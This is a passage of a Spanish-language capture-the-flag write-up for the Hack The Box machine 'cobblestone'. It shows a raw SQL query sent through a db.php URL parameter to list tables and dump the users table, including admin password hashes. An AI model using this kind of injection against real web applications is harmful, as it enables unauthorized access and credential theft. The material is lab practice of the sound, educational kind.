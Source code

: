 Info:

```
1 2 3 4 Array ( [0] => skins [Tables_in_cobblestone] => skins ) Array ( [0] => suggestions [Tables_in_cobblestone] => suggestions ) Array ( [0] => users [Tables_in_cobblestone] => users ) 
```

Veremos una tabla llamada `users` muy interesante, vamos a ver que contiene...

```
URL = view-source:http://cobblestone.htb/skins/db.php?0=select%20*%20from%20users;
```

Info:

```
1	2	3	4	Array
(
    [0] => 1
    [id] => 1
    [1] => admin
    [Username] => admin
    [2] => admin
    [FirstName] => admin
    [3] => admin
    [LastName] => admin
    [4] => admin@cobblestone.htb
    [Email] => admin@cobblestone.htb
    [5] => admin
    [Role] => admin
    [6] => f4166d263f25a862fa1b77116693253c24d18a36f5ac597d8a01b10a25c560d1
    [Password] => f4166d263f25a862fa1b77116693253c24d18a36f5ac597d8a01b10a25c560d1
    [7] => *
    [register_ip] => *
)
Array
(
    [0] => 2
    [id] => 2
    [1] => cobble
    [Username] => cobble
    [2] => cobble
    [FirstName] => cobble
    [3] => stone
    [LastName] => stone
    [4] => cobble@cobblestone.htb
    [Email] => cobble@cobblestone.htb
    [5] => admin
    [Role] => admin
    [6] => 20cdc5073e9e7a7631e9d35b5e1282a4fe6a8049e8a84c82987473321b0a8f4d
    [Password] => 20cdc5073e9e7a7631e9d35b5e1282a4fe6a8049e8a84c82987473321b0a8f4d
    [7] => *
    [register_ip] => *
)
Array
(
    [0] => 3
    [id] => 3
    [1] => diseo
    [Username] => diseo
    [2] => diseo
    [FirstName] => diseo
    [3] => diseo
    [LastName] => diseo
    [4] => diseo@test.com
    [Email] => diseo@test.com
    [5] => user
```